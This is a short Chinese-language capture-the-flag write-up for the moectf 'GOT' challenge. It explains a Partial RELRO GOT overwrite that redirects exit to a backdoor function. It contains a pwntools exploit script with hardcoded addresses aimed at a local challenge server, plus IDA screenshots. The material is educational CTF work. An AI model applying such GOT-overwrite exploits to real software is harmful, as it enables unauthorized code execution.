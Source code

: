 # moectf 这是什么？GOT！

by Maple

这里程序直接读入到GOT表里面，并且保护为`Partial RELRO`,所以将`exit`的地址覆盖为`ubreachable`函数的地址就可以了，记得别覆盖`system`

```python
from pwn import *
#p = process('./pwn')
p = remote('127.0.0.1',56063)
sys = 0x401056
un = 0x401196

payload = p64(0)*2+p64(sys)+p64(0)*4+p64(un)
p.send(payload)

p.interactive()
```



| ![image-20250217130722401](./images/image-20250217130722401.png) |
| ------------------------------------------------------------ |
| ida中可以查到`system`函数的plt表地址，.GOT初始值             |

| ![image-20250217131303322](./images/image-20250217131303322.png) |
| ------------------------------------------------------------ |
| 除了system，其它都分别覆盖掉，不需要的直接用0盖掉，exit用后门函数覆盖 |

